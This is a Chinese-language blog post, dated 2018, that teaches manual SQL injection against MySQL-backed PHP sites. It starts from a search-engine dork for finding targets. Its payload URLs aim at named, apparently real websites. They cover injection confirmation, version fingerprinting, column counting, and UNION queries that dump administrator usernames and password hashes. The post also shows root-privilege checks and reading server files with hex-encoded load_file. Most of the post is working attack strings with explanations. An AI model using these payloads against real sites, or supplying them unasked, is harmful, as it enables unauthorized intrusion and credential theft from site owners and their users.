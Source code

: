 ```yaml
---
layout:     post
title:      MySQL手工注入
subtitle:   
date:       2018-07-16
author:     Waldo
header-img: img/post-bg-世界风景名胜2.jpg
catalog: true
tags:
    - web安全 
    
---
```


## 搜索php网站

```
inurl:php?id=
```

## 判断是否存在注入漏洞

例如得到网站:http://www.star-reach.com/gallery.php?id=27

加上and 1=1提交，返回正常：

![image.png](https://upload-images.jianshu.io/upload_images/7216746-f7cc715abf592829.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

加上and 1=2提交，返回错误：

![image.png](https://upload-images.jianshu.io/upload_images/7216746-7dfe7fe5df621f17.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

通过上面两个结果就可以确定该网站存在注入漏洞，接下来判断其后台数据库，在目前的数据库系统中，只有MySQL数据库支持/*注释，所以可以利用它来判断后台是否是MySQL，以下试验[http://www.star-reach.com/gallery.php?id=27/*](http://www.star-reach.com/gallery.php?id=27/*) 返回正常，说明后台数据库就是MySQL，但是也要随机 应变。

![image.png](https://upload-images.jianshu.io/upload_images/7216746-082cba34bb70b845.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 判断MySQL数据库的版本

### 为什么要判断MySQL数据库版本？

当然是因为不同的版本对注入的结果会产生很大的影响。在MySQL版本4（包括版本4）新增了一个联合查询（UNION）的功能，比如SQL语句1 UNION SQL语句2，提交之后我们的SQL语句和SQL语句2都会被执行，这个功能使得MySQL发生SQL注入漏洞的危险性大大提高，利用它可以轻易的获取数据库中其他数据表的信息。

### 判断语句

```
and ord(mid(version(),1,1))>51/*

例如：

http://www.star-reach.com/gallery.php?id=27%20and%20ord(mid(version(),1,1))%3E51/*

提交以上语句，返回正常，说明这个数据库版本大于4.0，如果返回错误的话，就说明是小于4,0版本，即不支持UNION 查询。
数据库的version()函数的作用是数据库的版本信息。
ASCII码51代表3，这里的大于3当然就是4.0以上版本啦！
```

## /\*!...\*/

在MySQL数据库中，有一个其他数据库没有的扩展功能，它可以用/*!...*/这种注释语句来实现各版本功能的兼容。例如通过如下语句测试网站，返回错误，那么几乎可以确定网站后台数据库为MySQL了。

```
http://www.star-reach.com/gallery.php?id=27/*!%20s*/
```

![image.png](https://upload-images.jianshu.io/upload_images/7216746-ebcfd4ebca0d4b75.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

### 定位MySQL版本

```
在URL输入：
/*!30000%20s*/，如果返回错误的话，说明MySQL的版本大于3.0
/*!40000%20s*/，如果返回错误的话，说明MySQL的版本大于4.0
/*!50000%20s*/，如果返回错误的话，说明MySQL的版本大于5.0
/*!50000%20s*/，如果返回正确的话，说明MySQL的版本小于6.0
获得更精确的版本：
/*!50046%20s*/返回正常，说明MySQL版本小于5.0.46
/*!50045%20s*/返回错误页面，说明该MySQL版本为5.0.45
```

![image.png](https://upload-images.jianshu.io/upload_images/7216746-f78bbef1a0389b90.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![image.png](https://upload-images.jianshu.io/upload_images/7216746-9b72f2e7e3fbe60a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 确定当前数据库的字段数目
### UNION(联合查询)

在利用联合查询(UNION)字段数目时，要求前面的SQL语句和后面的SQL语句2的字段数要相同，否则就会出错。我们可以利用联合查询字段数目不匹配返回错误的这个特性来准确获得查询语句查询的字段数目。我看可以提交```union select 1,1,1,1,1```及其类似的语句，通过不断增加1，当页面返回正确，那么第一个SQL语句1中的字段数目就是union后多少个1的数目。

### order by
利用order by后加数字，MySQL会解释成按照第几列排序，如果查询没有我们提交的数字的那么多页就会返回错误。
```
http://www.star-reach.com/product_list.php?pid=53 order by 6 返回正常
http://www.star-reach.com/product_list.php?pid=53 order by 7 返回错误
说明字段是6个
```

![image.png](https://upload-images.jianshu.io/upload_images/7216746-5e91201bf6d0fb6e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![image.png](https://upload-images.jianshu.io/upload_images/7216746-59df845aa4a2f884.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 获得当前数据库的表名 
以《精通脚本黑客》的例子为示例 P165
利用方法: ```union select 字段数 from 表名```
例如：```http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,2,3,4,5,6,7,8,9,10,11,12,13 from admin```
返回结果正常，说明admin这个表名存在，而且在页面中还有一些数字。如下图所示。如果不存在就会返回错误页面。可以更换表名来测试其他表名。

![image.png](https://upload-images.jianshu.io/upload_images/7216746-238261d8abbff72f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在上图中，得到几个数字，分别是2、3、4、5、7、9、10，他们的作用是分别代表的第几个字段，更重要的是我们可以用其他的函数或字符代替这些字段。例如我们要查看数据库版本时用到的是version()函数，只要将version()放在上面几个字段中的任何一个就可以得到当前的数据库版本，例如提交```http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,version(),3,4,5,6,7,8,9,10,11,12,13 from admin``` 那么就会在第二个字段处出现数据库版本的信息；

例如提交```http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,username,3,4,5,6,7,8,9,10,11,12,13 from admin``` 就可以看到当前管理员的用户名，如下图所示

![image.png](https://upload-images.jianshu.io/upload_images/7216746-f46ee58cabc37c1a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

例如提交```http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,password,3,4,5,6,7,8,9,10,11,12,13 from admin``` 就暴出了当前管理员的密码，当然这只是admin表中的第一条记录，如下图所示

![image.png](https://upload-images.jianshu.io/upload_images/7216746-cdd4fb6aa6b1258f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 获得表中其它行的记录
通过主键字段获取
```
假设id是主键，获得admin中第二条记录的信息:
http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,password,3,4,5,6,7,8,9,10,11,12,13 from admin where id=2
id后面的数字是管理员的编号，是唯一的
```
这个查询其它记录的功能非常的有用，我们也知道现在几乎所有的网站都是经过了MD5加密，如果那个密码设置的很变态的话，我们很难破解。不能被破解，系统又没有如cookie欺骗之类的漏洞，那么我们得到了加密后的密码也是没有用。而我们查询其它的记录，那么就很有可能其它的记录的密码不是很强壮，破解的几率就很大。

## 判断是否是root权限

```
http://www.shidaiguocui.com/guide_show.php?id=32 and ord(mid(user(),1,1))=114/*
如果返回正确，则说明是root权限
```

![image.png](https://upload-images.jianshu.io/upload_images/7216746-69e8123c69c5bc43.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 判断是否具有文件读写的权限
```
and (select count(*) from MySQL.user) > 0
```

## 使用load_file()函数读取文件

注：使用此函数需要就有root权限(超级管理员)
```
读取c:/boot.ini中的信息
http://www.shidaiguocui.com/guide_show.php?id=32 union select 1,load_file(0x633A2F626F6F742E696E69),3,4,5,6,7,8,9,10,11,12,13 from admin 
注：0x633A2F626F6F742E696E69是c:/boot.ini的十六进制，使用十六进制可以防止我们提交的数据被PHP转义掉
```
